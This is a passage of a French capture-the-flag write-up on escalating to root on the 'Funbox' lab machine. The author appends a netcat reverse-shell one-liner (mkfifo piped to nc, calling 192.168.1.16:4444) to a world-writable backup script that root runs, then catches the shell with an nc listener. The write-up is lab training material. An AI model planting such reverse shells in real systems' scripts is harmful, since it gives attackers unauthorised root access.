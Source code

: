 ```bash
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
```

C'est le fameux script qui fait la sauvegarde de ``/var/www/html``. Heureusment pour nous, ce fichier dispose de tous les droits dessus (``chmod 777``). On peut donc le modifier pour y intégrer un reverse shell qui pourra être exécuté par la suite pour devenir **funny**.

Il ne nous reste plus qu'à savoir **comment** ?

Un coup de **linepeas** nous indique ceci :

```bash
[+] Modified interesting files in the last 5mins (limit 100)
/home/funny/html.tar
```

Avec ceci on sait désormais que le script (``/home/funny/.backup.sh``) se lance régulièrement. Cependant il n'y a aucun cron job qui est lié à ceci.                                                
Quand nous sommes dans ce cas il suffit de sortir **pspy64** pour voir en temps réel les processus qui tournent sur la machine.

Bizarrement on retrouve ceci :

```bash
2020/08/07 16:32:12 CMD: UID=0    PID=35753  | /bin/bash /home/funny/.backup.sh 
2020/08/07 16:32:12 CMD: UID=1000 PID=35752  | /bin/bash /home/funny/.backup.sh 
```

Ce qui veut dire que **root** et **funny** lancent eux deux le script? Etrange ...

On va quand même tenter d'obtenir un shell via l'un des deux. Dans ``/home/funny/.backup.sh`` :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.1.16 4444 >/tmp/f
```

Côté attaquant on lance un listener avec **nc** :

```bash
nc -lnvp 4444
```

Après quelques instants nous sommes **root** !

On peut donc aller récupérer le flag (et l'unique) :

```bash
cat /root/flag.txt

Great ! You did it...
FUNBOX - made by @0815R2d2
```

Etant curieux, je me suis déconnecté pour voir si j'arrivais à me connecter en tant que **funny** et effectivement ça arrive une fois sur deux.

Est-ce donc volontaire ou bien est-ce une erreur de configuration ?


Dans tous les cas nous avons atteint l'objectif du root. Si vous avez des précisions à apporté sur ce soit disant problème ou si vous avez des questions, n'hésitez pas à m'en faire part directement sur **[Twitter](https://twitter.com/ZworKrowZ)** ou en rejoignant mon serveur **[Discord](https://discord.gg/v6rhJay)**


Merci à [@0815R2d2](https://twitter.com/0815R2d2) pour cette box !